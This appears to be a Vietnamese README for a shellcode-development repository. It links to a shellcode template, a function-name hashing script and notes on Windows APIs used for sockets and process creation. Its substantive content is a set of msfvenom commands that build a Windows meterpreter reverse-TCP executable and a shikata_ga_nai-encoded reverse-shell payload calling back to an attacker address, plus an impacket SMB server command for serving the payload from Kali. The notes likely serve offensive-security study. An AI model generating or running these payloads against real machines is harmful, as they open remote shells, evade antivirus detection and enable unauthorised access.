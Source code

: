 [File shellcode template ](./shellcode/shellcode.py)

[File tình hash tên hàm](./shellcode/computehash.py)

### Một số hàm
[CopyFileA](./Functions/CopyFileA/README.md) 

[CreateProccessA](./Functions/CreateProcessA/README.md) 

[GetUserNameA](./Functions/GetUserNameA/README.md) 

[GetUserProfileDirectoryA](./Functions/GetUserProfileDirectoryA/README.md) 

[LoadLibraryA](./Functions/LoadLibraryA/README.md) 

[MoveFileA](./Functions/MoveFileA/README.md) 

[TerminateProccess](./Functions/TerminateProccess/README.md) 

[WSAConnect](./Functions/WSAConnect/README.md) 

[WSASocketA](./Functions/WSASocketA/README.md) 

[WSAStartup](./Functions/WSAStartup/README.md) 


- Tạo meterpreter:
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=8080 -f exe -o met.exe
    
  - msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=8080 -f python –e x86/shikata_ga_nai -b "\x00..."
    

- Cài pwntool
  - python3 -m pip install --upgrade pip

  - python3 -m pip install --upgrade pwntools

- Setup smbserver trên kali:

sudo impacket-smbserver met /home/kali -smb2support

